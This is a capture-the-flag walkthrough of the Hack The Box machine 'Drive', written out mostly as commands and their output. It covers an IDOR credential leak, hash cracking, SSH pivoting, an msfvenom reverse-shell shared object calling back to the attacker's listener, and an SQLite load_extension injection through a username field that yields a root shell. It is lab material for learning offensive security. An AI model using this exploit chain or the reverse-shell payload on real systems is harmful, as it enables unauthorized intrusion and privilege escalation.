


# 1. Enumeration

- We start with an Nmap scan to see what ports are open on the machine and services running on the open ports.
```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# nmap -T4 -p- -A -Pn 10.10.11.235
Starting Nmap 7.94 ( <https://nmap.org> ) at 2023-10-16 02:34 MDT
Warning: 10.10.11.235 giving up on port because retransmission cap hit (6).
Stats: 0:06:54 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 41.64% done; ETC: 02:50 (0:09:40 remaining)
Nmap scan report for drive.htb (10.10.11.235)
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
|   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
|_  256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Doodle Grive
3000/tcp filtered ppp
8989/tcp open     http    SimpleHTTPServer 0.6 (Python 3.8.10)
No exact OS matches for host (If you know what OS is running on it, see <https://nmap.org/submit/> ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=10/16%OT=22%CT=1%CU=44455%PV=Y%DS=2%DC=T%G=Y%TM=652CF9
OS:AC%P=x86_64-pc-linux-gnu)SEQ(SP=FA%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)SEQ(SP=F
OS:B%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=FB%GCD=1%ISR=10A%TI=Z%CI=Z%TS
OS:=A)SEQ(SP=FB%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M53CST11NW7%O2=M53
OS:CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W
OS:1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%
OS:O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=
OS:N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A
OS:=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%D
OS:F=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL
OS:=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   143.48 ms 10.10.10.10
2   143.85 ms drive.htb (10.10.11.235)

OS and Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 1052.76 seconds
```

- We get our scan result back, and we can see SSH port open on the machine, a web server running nginx 1.18.0, 
and also it gives us a hint this is an Ubuntu machine. There’s also a service running on port 3000, 
but it’s running internally and not open to us. We need to get access to the machine first before we see what’s
there.

# 2. Foothold

- After accessing the website on our firefox browser we can see a DOODLE GRIVE welcome page. 

- We also have a register and login page as well let’s try to register a new account and then explore the service a bit further…

- Once we register then login with our credentials we are brought to a screen with a dashboard and file upload 
extension.

- A closer inspection of the dashboard URL we find an IDOR vulnerability in this `Reserver` button:



- After trying many payloads we 
find another page `http://drive.htb/79/block` there we find a note by the admin that was left for the development
team and in the note we can see a user named `martin` credentials:

```
hey team after the great success of the platform we need now to continue the work.
on the new features for ours platform.
I have created a user for martin on the server to make the workflow easier for you please use the password "Xk4@KjyrYv8t194L!".
please make the necessary changes to the code before the end of the month
I will reach you soon with the token to apply your changes on the repo
thanks!
```

- Let's see if we can use that to gain SSH access to the machine since we saw the port running earlier.

```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# ssh martin@10.10.11.235    
martin@10.10.11.235's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/advantage>

  System information as of Mon 16 Oct 2023 09:18:34 AM UTC

  System load:           0.0
  Usage of /:            63.3% of 5.07GB
  Memory usage:          27%
  Swap usage:            0%
  Processes:             242
  Users logged in:       2
  IPv4 address for eth0: 10.10.11.235
  IPv6 address for eth0: dead:beef::250:56ff:feb9:b79e

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

Failed to connect to <https://changelogs.ubuntu.com/meta-release-lts>. Check your Internet connection or proxy settings

Last login: Mon Oct 16 08:31:10 2023 from 10.10.16.26
martin@drive:~$
```

- We gain access to the machine and checking the /etc/passwd file we can see 5 users on the console including 
the git user possibly running the gitea server we saw on port 3000 earlier:

```
git:x:115:119:Git Version Control,,,:/home/git:/bin/bash
martin:x:1001:1001:martin cruz,,,:/home/martin:/bin/bash
cris:x:1002:1002:Cris Disel,,,:/home/cris:/bin/bash
tom:x:1003:1003:Tom Hands,,,:/home/tom:/bin/bash
root:x:0:0:root:/root:/bin/bash
```

- We can’t find the user flag on martin home page, we might have to escalate our privilege to another user 
before we can find the flags and root the machine. 

- Let’s check the directory hosting the webserver if we find any interesting files there.

```
martin@drive:~$ cd /var/www/backups/ ; ls
1_Dec_db_backup.sqlite3.7z  1_Nov_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
martin@drive:/var/www/backups$
```

- The files listed in the /var/www/backups/ directory are compressed backup files of SQLite databases.
Each file corresponds to a backup made in a specific month, with the naming convention  1_MonthName_db_backup.sqlite3.7z. 
The .7z extension indicates that these are files compressed using the 7-Zip compression format

- The db.sqlite3 file, on the other hand, is not compressed and is likely the active SQLite database file.
  SQLite is a popular database engine used in many applications, including web browsers, mobile operating systems, and more.

- The presence of these backup files could potentially contain sensitive information if the database was used to store such data.

- Let’s download these interesting files to our machine and take a close look at them.

```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# scp martin@10.10.11.235:/var/www/backups/* /root/ctf/hack-the-box/drive 
martin@10.10.11.235's password: 
1_Dec_db_backup.sqlite3.7z                                                                          100%   13KB  42.8KB/s   00:00    
1_Nov_db_backup.sqlite3.7z                                                                          100%   12KB  39.1KB/s   00:00    
1_Oct_db_backup.sqlite3.7z                                                                          100%   12KB  41.6KB/s   00:00    
1_Sep_db_backup.sqlite3.7z                                                                          100%   12KB  41.3KB/s   00:00    
db.sqlite3                                                                                          100% 3672KB 610.9KB/s   00:06    
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# ls
1_Dec_db_backup.sqlite3.7z  1_Nov_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
```

- The files have been successfully downloaded to our machine, but first let’s also try to access the Gitea 
service running on port 3000 of drive, and we can achieve that by port forwarding to our localhost and the 
visiting the page on our web browser. Let’s accomplish that task first.

```
ssh -L 3000:127.0.0.1:3000 martin@drive.htb                            
martin@drive.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)
```

- Now we have access to the Gitea server running on the remote host through our SSH port forwarding.
I tried login as the user `martin`, but I get an error. So let’s go back to the “db.sqlite3” file we found on the host 
to see if we find more information there.

- After opening the “db.sqlite3” with `DB Broswer` for SQLite we can see the database currently contains 
users information, email, password hash. Let’s move the password hash to a test file and try to crack them.

- But first since we have `martins`'s password already let’s paste that into our wordlist and then try to 
crack martins hash and see if we can crack it before proceeding to others.
We can see the hashes are Django (SHA-1) and the module in `hashcat` for that is 124.

```
─(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# subl marincruz.txt                                               
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# cat marincruz.txt 
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f                                                                                                                                     
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# hashcat -m 124 marincruz.txt /root/deauth.txt --force
hashcat (v6.2.6) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-penryn-Intel(R) Core(TM) i5-10210U CPU @ 1.60GHz, 2914/5893 MB (1024 MB allocatable), 3MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256
Minimim salt length supported by kernel: 0
Maximum salt length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Mon Oct 16 03:49:40 2023
Stopped: Mon Oct 16 03:49:41 2023
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# hashcat -m 124 marincruz.txt /root/deauth.txt --force --show
sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f:Xk4@KjyrYv8t194L!
```

- I cracked the password before hashes already in my potfile, but hash corresponds to `martin` password.

- Now let’s try accessing the gitea service again but this time around we use martin full name we found in database dump `martincruz`.

- Finally, we have access to the gitea service and on further inspection we find a repo and there’s some file in 
there: `db_backup.sh` which is a script to decrypt the 7-Zip compression format backup files in there too, 
lets download the file to our machine and use the password in the script to decrypt the files and then view them.

```
mv /root/Downloads/db_backup.sh /root/ctf/hack-the-box/drive 
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# ls
1_Dec_db_backup.sqlite3.7z  1_Oct_db_backup.sqlite3.7z  db_backup.sh  marincruz.txt
1_Nov_db_backup.sqlite3.7z  1_Sep_db_backup.sqlite3.7z  db.sqlite3
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# cat db_backup.sh 
#!/bin/bash
DB=$1
date_str=$(date +'%d_%b')
7z a -p'H@ckThisP@ssW0rDIfY0uC@n:)' /var/www/backups/${date_str}_db_backup.sqlite3.7z db.sqlite3
cd /var/www/backups/
ls -l --sort=t *.7z > backups_num.tmp
backups_num=$(cat backups_num.tmp | wc -l)
if [[ $backups_num -gt 10 ]]; then
      #backups is more than 10... deleting to oldest backup
      rm $(ls  *.7z --sort=t --color=never | tail -1)
      #oldest backup deleted successfully!
fi
rm backups_num.tmp
```

- Yessss we can now access those files and take a closer look them, they all contain database information's and 
password hash, so should try cracking those hashes to see if we can get another user password and login to the
console as the box drive had 3 users, 1 root user and 1 git server.

- Let’s unzip the november zip file and then dump the hashes into a text file and try to crack them to see if 
any passwords crack but this time lets go use the default rockyou.txt wordlist.



```
sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db88969525a:johnmayer7
```

- Let’s try ssh into machine with `tom`’s credentials.

```
ssh tom@10.10.11.235
tom@10.10.11.235's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-164-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/advantage>

  System information as of Mon 16 Oct 2023 10:13:59 AM UTC

  System load:           0.73
  Usage of /:            64.7% of 5.07GB
  Memory usage:          28%
  Swap usage:            0%
  Processes:             245
  Users logged in:       2
  IPv4 address for eth0: 10.10.11.235
  IPv6 address for eth0: dead:beef::250:56ff:feb9:b79e

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to <https://changelogs.ubuntu.com/meta-release-lts>. Check your Internet connection or proxy settings

Last login: Mon Oct 16 10:13:23 2023 from 10.10.14.147
tom@drive:~$ cat user.txt
c524b6e79057a4e9176684aacd3e3f1c

```

# 3. Privilege Escalation

- We can also see a README.txt let’s take a closer look at that and see what it tells us.

```
tom@drive:~$ cat README.txt 
Hi team
after the great success of DoodleGrive, we are planning now to start working on our new project: "DoodleGrive self hosted",it will allow our customers to deploy their own documents sharing platform privately on thier servers...
However in addition with the "new self Hosted release" there should be a tool(doodleGrive-cli) to help the IT team in monitoring server status and fix errors that may happen.
As we mentioned in the last meeting the tool still in the development phase and we should test it properly...
We sent the username and the password in the email for every user to help us in testing the tool and make it better.
If you face any problem, please report it to the development team.
Best regards.
tom@drive:~$
```

- In the given text, the new service `doodleGrive-cli` is described as a tool to help the IT team monitor server 
status and fix errors. It's part of the upcoming `DoodleGrive self hosted` project, which will allow customers 
to deploy their own private document sharing platform on their servers. The team has sent out usernames and
passwords to users to help test the tool, with any issues to be reported back to the development team.
This suggests that the `doodleGrive-cli` service will provide server monitoring and error fixing capabilities
as part of the larger `DoodleGrive self hosted` project.

- Let’s run strings on the binary and see what going on behind the scenes.

```
strings doodleGrive-cli

please Select a valid option...
PATH
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
Enter password for 
moriarty
findMeIfY0uC@nMr.Holmz!
Welcome...!
Invalid username or password.
xeon_phi
haswell
../csu/libc-start.c
FATAL: kernel too old
__ehdr_start.e_phentsize == sizeof *GL(dl_phdr)
Unexpected reloc type in static binary.
FATAL: cannot determine kernel version
```

- We have found the username and password for the `doodeGrive-cli` and now lets exploit this service and gain 
root shell but first generate a payload to exploit this service and upload it to the drive console.

```
(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=65500 -f elf-so -o 0.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: 0.so
                                                                                                                                      
┌──(root㉿kali)-[~/ctf/hack-the-box/drive]
└─# scp 0.so tom@10.10.11.235:/home/tom/
tom@10.10.11.235's password: 
0.so                              
```

--- 
### Note

- (YOU HAVE TO GIVE YOUR PAYLOAD NAME 0.so !!!!!!) & transfer 0.so file in /home/tom (IMPORTANT)
---

- Now that is completed on our ssh session we can see the file available.

```
tom@drive:~$ ls
0.so  doodleGrive-cli  README.txt  user.txt
```

- Now start a nc listener on port 65500

```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# nc -nvlp 65500           
listening on [any] 65500 ...
```

```
./doodleGrive-cli
username:moriarty
password:findMeIfY0uC@nMr.Holmz!
Select option: 5
then give this command for Enter username activate account: "+load_extension(char(46,47,48))+"
check you nc listener you should get a reverse shell as root.
```

```
tom@drive:~$ ./doodleGrive-cli
[!]Caution this tool still in the development phase...please report any issue to the development team[!]
Enter Username:
moriarty
Enter password for moriarty:
findMeIfY0uC@nMr.Holmz!
Welcome...!

doodleGrive cli beta-2.2: 
1. Show users list and info
2. Show groups list
3. Check server health and status
4. Show server requests log (last 1000 request)
5. activate user account
6. Exit
Select option: 5
Enter username to activate account: "+load_extension(char(46,47,48))+"
Activating account for user '"+load_extension(char(46,47,48))+"'...
```

- In SQLite, the load_extension function is used to load an SQLite extension in the database system. 
The function takes a single argument, which is the name of the shared library that contains the extension.

- In the provided command, char(46,47,48) is used to create a string consisting of three ASCII characters: 
  - a period (.), a forward slash (/), and a zero (0). This is equivalent to the string ./0 in ASCII.

- In this context, ./0 is likely an attempt to load an extension from the current directory. 
The period (.) represents the current directory, and the zero (0) is part of the filename,
likely indicating that the file is an extension.

- Finally, you get a root shell on your local listener.

```
root㉿kali)-[~/ctf/hack-the-box/drive]
└─# nc -nvlp 65500           
listening on [any] 65500 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.11.235] 38318
id
uid=0(root) gid=0(root) groups=0(root),1003(tom)
whoami
root
cd /root ;ls
root.txt
cat root.txt
4fb7b2cdd44023a1653cef2bccb0f9b4
```